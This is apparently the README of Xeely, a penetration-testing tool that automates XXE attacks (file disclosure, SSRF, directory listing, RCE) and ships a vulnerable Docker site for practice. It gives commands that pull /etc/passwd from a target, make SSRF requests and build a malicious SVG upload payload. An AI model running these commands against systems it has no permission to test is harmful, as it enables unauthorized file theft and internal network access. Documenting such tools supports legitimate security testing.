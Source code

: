 # Xeely
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.10-yellow.svg)](https://www.python.org/)
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
Xeely is a Linux tool that permits to automate some XXE exploits: `File Disclosure`, `Directory Listing`, `SSRF`,`RCE`.
To carry out these attacks, a user can choose a particular method among those proposed below:

-   [DIRECT](https://portswigger.net/web-security/xxe)
-  [ERROR BASED](https://portswigger.net/web-security/xxe)
- [OOB](https://portswigger.net/web-security/xxe)


Xeely also supports the generation of malicious SVG payload to combine `XXE` and `File Upload` attacks.

This project also comes with a Docker image of a vulnerable PHP website to try out the tool.

⚡️ **This is an early release currently being tested.**


**Disclaimer**: Running the payloads generated by this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Preview
![image](assets/preview.png)

## Deploying vulnerable website

```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely/vulnerable_website
docker build -t xeely-xxe-website
docker run -d -p 80:80 xeely-xxe-website
```

If you now try to navigate to http://localhost:80/, you should see the following website:

![image](assets/vulnerable-website.png)

## Installation & Usage
```
git clone https://github.com/0xHexPloit/Xeely.git
cd ./Xeely
pip3 install -r requirements.txt
```

Once all the dependencies have been installed, you could identify if your target machine
is vulnerable to XXE attacks using the following command:

```
python3 -m xeely identify --request <PATH TO REQUEST FILE> --lhost <IP ADDRESS>
```

The `request` option expects a path to an HTTP Request file similar to the one in
the `resources` directory. We recommend to use `Burp` to generate this file.

Concerning the `lhost` option, the latter permits to specify the IP Address to use to
setup an HTTP server to handle XXE attacks using either `Error Based` or `OOB` method.

![image](assets/identify-command.png)

As shown on the above figure, our PHP website is vulnerable to `File Disclosure` and
`SSRF` attacks. Xeely also recommends to use the `DIRECT` mode/method to perform the
attack which is the most common way to perform an XXE attack.

With this knowledge in mind, we can now try to exfiltrate data using the `exploit` command.

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --file /etc/passwd
```

```
python3 -m xeely exploit --request <PATH TO REQUEST FILE> --ssrf http://xxx
```

<hr />

**Useful remarks**:

It exists some files that cannot be retrieved using the above command. For example, PHP
tags will be taken into consideration by the XML parser. To overcome this issue, add the
`--base64` option if the backend server has been written in PHP or you could use `--cdata`
option if the backend server has been written in another language.

The `Directory Listing` attack only works for backend servers written in Java.

The `RCE` attack only works for backend servers written in PHP that have installed the
`expect` module (very rare).

<hr/>

As mentioned earlier, Xeely can also generate malicious SVG as shown below:

![image](assets/svg.png)

This payload can be obtained using the following command:

```
python3 -m xeely svg --file /etc/passwd
```

## Contributions

Feel free to open a pull request to recommend a new feature or
to notify me of a bug in the program.
